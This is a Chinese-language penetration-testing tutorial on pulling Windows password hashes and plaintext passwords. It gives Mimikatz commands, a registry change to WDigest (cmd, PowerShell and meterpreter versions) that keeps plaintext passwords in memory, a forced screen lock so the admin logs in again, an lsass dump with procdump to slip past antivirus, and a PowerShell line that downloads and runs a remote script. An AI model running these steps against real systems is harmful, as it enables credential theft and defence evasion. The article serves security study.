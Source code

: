 > 本文由 [简悦 SimpRead](http://ksria.com/simpread/) 转码， 原文地址 [mp.weixin.qq.com](https://mp.weixin.qq.com/s/YR_6WwnX_zs7vfyYsjMFqQ)

在 Windows2000 以后，Windows 机器都用 NTLM 算法在本地保存用户的密码，密码的 NTLM 哈希保存在`%SystemRoot%\System32\config\SAM`文件中。

Windows 操作系统通常使用两种方法对用户的密码进行哈希处理，即 LAN Manager（LM）哈希和 NT LAN Manager（NTLM）哈希。所谓哈希（Hash），即使用一种加密方法对明文密码进行加密，对一个任意长度的字符串数据进行一次加密运算，都可以返回一个固定长度的字符串。

Windows 加密过的密码口令，我们称之为 Hash。

Windows 操作系统中的密码一般由两部分组成：一部分为 LM Hash，另一部分为 NTLM Hash。在 Windows 中，Hash 的结构通常如下：

Username:RID:LM-Hash:NT-Hash   

在 Windows2000 以后的系统中，第一部分的 LM-hash 都是空值，因为 LM-hash 可以很容易的破解，所以 Windows2000 之后这个值默认为空，所以第二部分的 NTLM-hash 才真正是用户密码的哈希值。

在渗透测试中，通常可从 Windows 系统中的 SAM 文件和域控的 NTDS.dit 文件（在域环境中，用户信息存储在 NTDS.dit 中）中获得所有用户的 Hash。也可以通过 Mimikatz 读取 lsass.exe 进程获得已登录用户的 NTLM hash 和明文值 。

> 注：但是在安装了 KB2871997 补丁或者系统版本大于 Windows10 或 Windows Server 2012 时，默认在内存缓存中禁止保存明文密码，这样利用 mimikatz 就不能从内存中读出明文密码了，但可以通过修改注册表的方式抓取明文。

在 KB2871997 之前， Mimikatz 可以直接抓取明文密码。

当服务器安装 KB2871997 补丁后，系统默认禁用 `Wdigest Auth` ，内存（lsass 进程）不再保存明文口令。Mimikatz 将读不到密码明文。  
但由于一些系统服务需要用到 Wdigest Auth，所以该选项是可以手动开启的。（开启后，需要用户重新登录才能生效）

以下是支持的系统:

Windows 7  
Windows 8  
Windows 8.1  
Windows Server 2008  
Windows Server 2012  
Windows Server 2012R 2

什么是 Wdigest Auth,

  
WDigest.dll 是在 Windows XP 操作系统中引入的。摘要认证协议设计用于超文本传输协议（HTTP）和简单认证安全层（SASL）交换，如 RFC 2617 和 2831 中所述。

许多人认为 Digest 认证是一种与 Web 浏览器一起使用以验证浏览 Internet 的用户的协议。

然而，Digest 认证也是可以用于认证的通用协议，并且通过使用 SASL，它可以提供完整性保护。例如，您可以使用摘要身份验证：

经过身份验证的客户端访问网站  
使用 SASL 进行身份验证客户端访问  
使用 LDAP 对目录服务进行身份验证的身份验证客户端访问

WDigest 的问题是它将密码存储在内存中，并且无论是否使用它，都会将其存储在内存中。除非密码以明文保存在内存中，否则 WDigest 无法正常工作，因此如果使用 WDigest，则无法进行修复。

以下操作系统受到影响：

Windows 7，Windows 8，Windows 8.1，Windows Server 2008，Windows Server 2008R2 和 Windows Server 2012。

Mimikatz 读取明文密码和 hash 也是最常用的方法。需要管理员权限。

```
privilege::debug // 提升至debug权限
sekurlsa::logonpasswords // 抓取密码
```

  
这里以 Windows Server 2012 为例：

  
没有开启 Wdigest Auth 无法获取明文。

![](https://mmbiz.qpic.cn/mmbiz_png/J8eMAibvuV2JTtekDO3spHxulOgf6tWuASAPxsWM87MXW1m0MrwElfq9yibKLa72wgLWBQza4PR492yWu9ThIZ2Q/640?wx_fmt=png)

解决办法：手动通过修改注册表开启`Wdigest Auth`

cmd:

```
reg add HKLM\SYSTEM\CurrentControlSet\Control\SecurityProviders\WDigest /v UseLogonCredential /t REG_DWORD /d 1 /f
```

powershell:

```
Set-ItemProperty -Path HKLM:\SYSTEM\CurrentControlSet\Control\SecurityProviders\WDigest -Name UseLogonCredential -Type DWORD -Value 1
```

meterpreter:

```
reg setval -k HKLM\\SYSTEM\\CurrentControlSet\\Control\\SecurityProviders\\WDigest -v UseLogonCredential -t REG_DWORD -d 1
```

关闭 (1 改为 0)

cmd

```
reg add HKLM\SYSTEM\CurrentControlSet\Control\SecurityProviders\WDigest /v UseLogonCredential /t REG_DWORD /d 0 /f
```

powershell

```
Set-ItemProperty -Path HKLM:\SYSTEM\CurrentControlSet\Control\SecurityProviders\WDigest -Name UseLogonCredential -Type DWORD -Value 0
```

meterpreter

```
reg setval -k HKLM\\SYSTEM\\CurrentControlSet\\Control\\SecurityProviders\\WDigest -v UseLogonCredential -t REG_DWORD -d 0
```

在开启 `Wdigest Auth` 后，需要管理员重新登录才能抓取明文密码。

我们可以强制锁屏，让管理员重新登录。

cmd

```
rundll32 user32.dll,LockWorkStation
```

powershell

```
powershell -c "IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/kiraly15/Lock-WorkStation/master/Lock-WorkStation.ps1');"
```

![](https://mmbiz.qpic.cn/mmbiz_png/J8eMAibvuV2JTtekDO3spHxulOgf6tWuA0a9ThM66CVdkdmHgs3R2ulBKlFaFa8ic1A0OKbcicVA3nEnB2ytLHIiaQ/640?wx_fmt=png)

成功抓取到明文密码。

离线抓取 Windows 明文密码
-----------------

当 mimikatz 无法实现免杀时，我们可以 dump lsass 进程，然后离线读取。

使用微软的工具套件，procdump，带微软签名，可绕过一些杀软。

![](https://mmbiz.qpic.cn/mmbiz_png/J8eMAibvuV2JTtekDO3spHxulOgf6tWuAVSGicGedBhUzhK4Ekicnsrth01ZpLgF1Me7MibBQzX22CTfqRnO7cDibZA/640?wx_fmt=png)

mimikatz 读取  
将导出的 lsass.dmp 放在 mimikataz.exe 同一个目录下。

![](https://mmbiz.qpic.cn/mmbiz_png/J8eMAibvuV2JTtekDO3spHxulOgf6tWuAUbwibNeibKRr9zdEAtJgT3Wswj7zrNIbWwxgDMCZibaic69KZ8ON0aU8bg/640?wx_fmt=png)

成功离线读取。

问题
--

1. 留下个问题，下次解决。Windows10 这种情况，如何抓密码？

![](https://mmbiz.qpic.cn/mmbiz_png/J8eMAibvuV2JTtekDO3spHxulOgf6tWuAciaicJ5XWAr4PdSCwHXGWbkdO2cN4e9JIR2BBuuYg7YwYNkq6d4riaDJA/640?wx_fmt=png)

2. Windows 10 和 其他版本，手动开启 Wdigest Auth 后，是不是只需要锁屏就可以抓明文了？

参考资料：  
https://jayl1n.github.io/2019/03/29/pentest-getpassword/  
https://wooyun.js.org/drops/%E5%9F%9F%E6%B8%97%E9%80%8F%E2%80%94%E2%80%94Dump%20Clear-Text%20Password%20after%20KB2871997%20installed.html  
https://zhuanlan.zhihu.com/p/30400059  
http://www.feidao.site/wordpress/?p=1993